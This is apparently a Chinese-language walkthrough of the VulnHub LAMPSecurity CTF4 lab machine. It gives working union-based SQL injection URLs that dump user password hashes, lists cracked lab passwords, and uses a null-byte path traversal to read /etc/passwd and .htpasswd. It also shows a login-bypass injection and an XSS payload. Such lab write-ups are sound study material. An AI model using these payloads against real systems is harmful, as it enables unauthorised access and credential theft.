 [https://www.vulnhub.com/entry/lampsecurity-ctf4,83/](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/)

# 初始操作

下载之后,打开靶机,检查靶机网卡,发现使用的是vm里面的专用网络

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718164649.png)

因此将Arch的网卡同样修改成专用网络(或者直接设置成双网卡),对子网进行扫描,确认靶机ip

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718165205.png)

靶机ip为`172.16.228.128`,对其进行详细扫描

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718165542.png)

`robots.txt`中显示

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

`/conf/`访问报错,`/restricted/`,`/mail/`,`/admin/`都需要登录 

`/sql/`目录可以直接查看,`/sql/db.sql`可以被直接访问,内容如下

```sql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

使用[dirsearch](https://github.com/maurosoria/dirsearch)对网站进行目录扫描,得到`pages`目录可以直接查看

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718174307.png)

# sql注入1

进入`blog.php`,报错`Warning: mysql_fetch_row(): supplied argument is not a valid MySQL result resource in /var/www/html/pages/blog.php on line 9`,因此存在报错注入

将`index.html?page=blog&title=Blog&id=2`中的id进行修改,修改成`index.html?page=blog&title=Blog&id=2%27`,会发生报错

`index.html?page=blog&title=Blog&id=2 order by 6-- `会发生报错,说明一共有5个字段

`index.html?page=blog&title=Blog&id=20 union select null,group_concat(cast(schema_name as char)),null,null,null from information_schema.schemata--+`列出数据库的库名

`index.html?page=blog&title=Blog&id=20 union select null,group_concat(cast(table_name as char)),null,null,null from information_schema.tables where table_schema='ehks'--+`列出`ehks`的表

`index.html?page=blog&title=Blog&id=20 union select null,group_concat(cast(column_name as char)),null,null,null from information_schema.columns where table_name='user'--+`列出`ehks.user`的列

`index.html?page=blog&title=Blog&id=20 union select null,null,user_name,null,user_pass from user--+`列出用户名和密码(进行了hash)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719220701.png)

密码长度与md5一致,猜测为md5,但不确定是否有加盐,[批量反查结果](https://www.somd5.com/batch.html)如下

```
02e823a15a392b5aa4ff4ccb9060fa68 ilike2surf
b46265f1e7faa3beab09db5c28739380 seventysixers
8f4743c04ed8e5f39166a81f26319bb5 Homesite
7c7bc9f465d86b8164686ebb5151a717 Sue1978
64d1f88b9b276aece4b0edcc25b7a434 pacman
9f3eb3087298ff21843cc4e013cf355f undone1
```

均可进入`/admin/`后台,测试同样可以作为ssh连接并提权到`root`

ssh连接可能会报错`no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`

解决方法:需要在`/etc/ssh/ssh_config`中添加`KexAlgorithms +diffie-hellman-group1-sha1`然后执行`sudo ssh-keygen -A`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719220922.png)

# 路径穿越

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718174307.png)

注意到url中的访问格式`index.html?page=blog&title=Blog&id=2`,推测其调用方式为`include($_GET[$page].'.php')`

而`Wappalyzer`的分析结果显示其php版本为5.1.2,因此存在00截断

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719230917.png)

`index.html?page=../../../../../../../etc/passwd%00`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719232639.png)

对`/restricted/.htaccess`进行读取,`index.html?page=../restricted/.htaccess%00`

```
AuthType Basic
AuthName "Restricted - authentication required"
AuthUserFile /var/www/html/restricted/.htpasswd
Require valid-user
```

对`/restricted/.htpasswd`进行读取,`index.html?page=../restricted/.htpasswd%00`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720115742.png)

```
ghighland:8RkVRDjjkJhq6
pmoore:xHaymgB2KxbJU
jdurbin:DPdoXSwmSWpYo
sorzek:z/a8PtVaqxwWg
```

`.htpasswd`的加密方式:[https://httpd.apache.org/docs/current/misc/password_encryptions.html](https://httpd.apache.org/docs/current/misc/password_encryptions.html)


用[https://www.openwall.com/john/](https://www.openwall.com/john/)来进行破解

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720143008.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720143319.png)

# sql注入2

查看`admin/index.php`的网页源代码,发现其对输入用户名和密码的过滤写在了js中

```js
<script type="text/javascript">
function fixLogin() {
	var test=/[^a-zA-Z0-9]/g;
	document.login_form.username.value=document.login_form.username.value.replace(test, '');
	document.login_form.password.value=document.login_form.password.value.replace(test, '');
}
</script>
```

抓包修改即可,得到报错`select user_id from user where user_name=''' AND user_pass = md5(''')`,说明其闭合方式为`'`

传入`username=' or '1'='1&password=') or 1=1#`,其sql语句为`select user_id from user where user_name='' or '1'='1' AND user_pass = md5('') or 1=1#')`即可登录成功

在post blog界面存在`xss`攻击的可能,传入`</p>xxx<p>`,即可进行闭合,使其中的xxx内容得以执行

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720114516.png)